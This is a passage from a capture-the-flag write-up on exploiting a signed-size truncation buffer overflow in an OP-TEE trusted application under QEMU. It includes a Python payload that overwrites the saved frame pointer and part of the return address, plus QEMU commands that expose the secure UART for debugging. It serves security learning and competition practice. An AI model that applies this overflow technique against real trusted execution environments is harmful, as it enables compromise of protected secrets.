 To sum, here is our attack plan :

1. Ask to put a flag in TEE with negative value, where truncated value is 128 + 8 + 2
2. Write (128+8) dummy bytes and the 0xY020 with Y : 0x0 -> 0xf
3. Get response or detect a crash...

You will find **Y=1**. Exploit file is available in [exploit/method1.py](exploit/method1.py). Here is the interresting part :

```Python
overflowSize = 0x80 + 8 + 2
signedSize = uintToSignedInt(overflowSize)
payload = 'A' * 0x80
payload += 'B' * 8 # X29
payload += '\x20\x10'

putFlagToWin(p, signedSize, payload)
print(read_all(p)) # Print answer
```

You will get the flag as it is copied to `params` and printed in the Linux application later :

```
Placed "Congratulations! The flag is: ph0wn{XXXXXXXXXXXXXXXX}" in flag 0
```

### Method 2 : Debugging using the *hidden* UART

Previous exploit is quite simple but developping an exploit without debugging is difficult. You would have to know **exactly** the stack layout, assume the TA start address is really aligned, ... Here is another method which will give you a lot of debugging information to fix your exploit.

If you search documentation about OP-TEE debugging, you may end up in this [page](https://optee.readthedocs.io/en/latest/building/devices/qemu.html) explaining how to debug TA application using GDB. We will see in the *method 3* how to use a debugger but there is also a very useful information in this page : there a **secure UART** in the default configuration for QEMU !

I cloned OP-TEE and run the provided commands to see what QEMU command is used to get this second UART and I got :

```
qemu-system-aarch64 -nographic -serial tcp:localhost:54320 -serial tcp:localhost:54321 -smp 2 -s -S -machine virt,secure=on -cpu cortex-a57 -d unimp -semihosting-config enable,target=native -m 1057 -bios bl1.bin -initrd rootfs.cpio.gz -kernel Image -no-acpi -append console=ttyAMA0,38400 keep_bootcon root=/dev/vda2 -netdev user,id=vmnic -device virtio-net-device,netdev=vmnic
```

The tips is to use two `-serial` options. The first one will define the Linux console and the second one is the OP-TEE console.

Here is the  new QEMU command (in `run.sh`) :

```sh
rm -f /tmp/flagstorage.in ; mkfifo /tmp/flagstorage.in
rm -f /tmp/flagstorage.out ; mkfifo /tmp/flagstorage.out
qemu-system-aarch64 \
    -nographic \
    -smp 2 \
    -machine virt,secure=on -cpu cortex-a57 \
    -d unimp -semihosting-config enable,target=native \
    -m 1057 \
    -bios bl1.bin \
    -initrd rootfs.cpio.gz \
    -kernel Image -no-acpi \
    -monitor null -chardev stdio,mux=off,signal=on,id=char0 -serial chardev:char0 \
    -monitor null -chardev pipe,id=char1,path=/tmp/flagstorage -serial chardev:char1
```
